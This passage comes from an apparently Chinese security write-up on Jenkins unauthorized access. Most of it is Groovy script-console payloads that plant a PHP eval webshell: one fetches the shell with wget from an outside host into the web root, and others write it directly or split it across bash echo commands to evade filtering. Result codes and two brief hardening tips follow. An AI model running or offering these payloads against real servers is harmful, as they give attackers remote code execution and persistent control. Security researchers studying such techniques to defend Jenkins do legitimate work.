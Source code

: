wget写webshell  
```
1. println "wget http://shell.secpulse.com/data/t.txt -o /var/www/html/secpulse.php".execute().text
2. new File("/var/www/html/secpulse.php").write('<?php @eval($_POST[s3cpu1se]);?>');
3. def webshell = '<?php @eval($_POST[s3cpu1se]);?>'
new File("/var/www/html/secpulse.php").write("$webshell");
4. def execute(cmd) {
def proc = cmd.execute()
proc.waitFor()
}
execute( [ 'bash', '-c', 'echo -n "<?php @eval($" > /usr/local/nginx_1119/html/secpulse.php' ] )
execute( [ 'bash', '-c', 'echo "_POST[s3cpu1se]);?>" >> /usr/local/nginx_1119/html/secpulse.php' ] )
//参数-n 不要在最后自动换行
```
![](../pictures/notauthority7.png)   
Result: 0 表示成功写入 Result: 1 表示目录不存在或者权限不足 写入失败 Result: 2 表示构造有异常 写入失败  

具体其他详细利用方法参考相关文章。  

### 3.3 漏洞加固

1、禁止把Jenkins直接暴露在公网  

2、添加认证，设置强密码复杂度及账号锁定。  

